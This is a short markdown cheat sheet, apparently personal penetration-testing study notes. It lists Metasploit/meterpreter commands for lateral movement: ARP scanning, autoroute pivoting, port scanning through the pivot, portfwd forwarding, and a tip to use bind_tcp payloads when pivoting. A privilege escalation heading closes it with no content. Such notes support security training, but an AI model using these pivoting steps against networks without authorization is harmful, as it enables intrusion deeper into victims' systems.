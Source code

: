 ## Lateral Movement
* `meterpreter > ipconfig` - not the IP addresses the target has. Focus on the IP different than the external IP
* `meterpreter > run arp_scanner -r <internal-IP>/<subnet-mask>'
* `meterpreter > run autoroute -s <internal-IP>/<subnet-mask>`
* `meterpreter > background`
* `msf6 > use auxiliary/scanner/portscan/tcp`
* `msf6 auxiliary(scanner/portscan/tcp) > set rhost <target>`

#### Port forward
* `use auxiliary/scanner/portscan/tcp` - portscan (after running autoroute)
  - `show options` - set rhosts
* `meterpreter> portfwd add -l <local_port> -p <target_port> -r <target_IP>`
  - check that you are in meterpreter console (`sessions -i <session-number>`) 
* `meterpreter> portfwd list` - check port forwarding list
* in linux host, run `nmap -sV <local_port> <target>`
##### Notes
* when route is activated and exploiting other hosts through msf pivoting, `reverse_tcp` doesn't work
  * use `bind_tcp` payloads 


## Privilege Escalation
